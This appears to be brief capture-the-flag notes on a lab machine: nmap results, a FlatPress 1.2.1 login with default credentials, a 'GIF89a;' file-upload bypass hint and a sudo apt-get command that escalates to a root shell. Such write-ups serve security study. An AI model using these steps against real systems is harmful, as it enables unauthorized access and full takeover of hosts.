 ____


> [!info]
> IP=192.168.179.29

# Nmap 

|PORT|STATE|SERVICE|
|---|---|---|
|22/tcp|open|ssh|
|80/tcp|open|http|
|8089/tcp|open|unknown|

```python
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
|_http-title: Lugx Gaming Shop HTML5 Template
|_http-server-header: Apache/2.4.56 (Debian)
8089/tcp open  http    Apache httpd 2.4.56 ((Debian))
|_http-generator: FlatPress fp-1.2.1
|_http-title: FlatPress
|_http-server-header: Apache/2.4.56 (Debian)
```

# 80 - http
- Lugx Gaming Shop HTML5 Template

# 8089 - http

- FlatPress fp-1.2.1
admin:password

https://github.com/flatpressblog/flatpress/issues/152

GIF89a;

# PrivEsc


```bash
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```